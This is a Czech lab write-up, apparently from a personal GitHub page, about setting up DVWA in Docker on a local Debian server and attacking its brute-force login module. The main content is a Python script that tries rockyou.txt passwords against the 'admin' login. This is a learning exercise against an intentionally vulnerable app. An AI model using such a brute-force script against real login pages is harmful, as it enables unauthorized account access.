

# DVWA
Dnes jsem nainstaloval DVWA do konteinteru docker na debian server.
Neinstaloval jsem to přímo na původní apache2 webserver, to by nebylo fajn. Udělal jsem přeportování z 8080 na port 80, takže aktualně jsou k dispozici 
oba webservery jeden na debian.lab.internal:8080 a druhý na portu 80. Jelikož je to celé jen na lokální síti, nemusím úplně řešit http, ale bylo by hezké to mít na https. Uvidím co se s tím dá dělat.

## Brute Force
Jako první modul z celé nabídky zranitelností jsem si vybral brute force přihlášení. \
O co se jedná, jde o klasický pokus-omyl. Pomocí softwaru/skriptu se zautomatizuje request stránky pro zkontrolování přihlašovacích údajů. Proběhne několik pokusů za vteřinu. Na situaci kterou zde mám mohu použít jednoduchý python skript s využitím foreach loop.


```
import requests
import sys
import os
from requests.auth import HTTPBasicAuth

url = "http://debian.lab.internal:8080/vulnerabilities/brute/"
username = "admin"
wordlist = "/usr/share/wordlists/rockyou.txt"

def load_password(filename):
    with open(filename, 'r', encoding='latin-1') as f:
        return [line.strip() for line in f if line.strip()]

session = requests.Session()
passwords = load_password(wordlist)

for password in passwords:
    data = {
        "username": username,
        "password": password,
    }
    response = session.post(url, data=data)
    if "index.php" in response.url:
        print(f"Heslo je: {password}")
        break   
```

Jelikož mám web nastaven na low security, dá se odhadovat že budu mít nekonečný počet pokusů.
Python skript vezme známý rockyou.txt list, ve kterém se nacházejí nejpoužívanější hesla.
Po chvilce se povedlo a nalezl jsem login admin a heslo password. Což je vskutku nečekaná volba.


>Také jsem si dobře povšiml, že by se dalo také využít http nešifrování.
*http://debian.lab.internal:8080/vulnerabilities/brute/?username=admin&password=password*
